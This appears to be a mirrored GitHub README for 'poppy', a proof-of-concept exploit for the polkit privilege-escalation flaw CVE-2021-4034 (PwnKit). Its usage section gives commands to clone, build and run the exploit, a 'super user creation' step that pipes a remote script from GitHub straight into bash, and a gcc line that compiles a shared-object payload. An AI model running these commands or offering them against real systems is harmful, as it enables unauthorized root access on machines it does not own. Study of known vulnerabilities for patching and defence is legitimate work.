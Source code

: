 # poppy

CVE-2021-4034 PoC , polkit < 0.131

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tahaafarooq](https://github.com/tahaafarooq) |
| Url      | [https://github.com/tahaafarooq/poppy](https://github.com/tahaafarooq/poppy)                                               |
| Stars    | 5                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-4034* exploit-development* proof-of-concept* vulnerability

</details>

## Readme

# poppy : CVE-2021-4034
CVE-2021-4034 PoC , polkit &lt; 0.131

## Usage

Tested on Arch Linux (Manjaro & Axyl OS)
```shell
git clone https://github.com/tahaafarooq/poppy
make
./poppy
```

**Super user creation exploit**

```shell
bash -c "$(curl -fsSL https://raw.githubusercontent.com/tahaafarooq/poppy/main/suuser.sh)"
```

```shell
gcc -shared su.c -o suuser -Wl,-e,entry -fPIC
./suuser
```


## POC
![anotherone](https://user-images.githubusercontent.com/49201347/151382446-242aa1f9-4eb9-40cf-98fb-a74aef95b668.png)

For more information about this vulnerability refer to the writeup https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt



## Get the content

```
git clone https://github.com/tahaafarooq/poppy
cd poppy
```

{% embed url="https://github.com/tahaafarooq/poppy" %}

<figure><img src="https://avatars.githubusercontent.com/u/49201347?v=4" alt=""><figcaption><p>tahaafarooq</p></figcaption></figure>
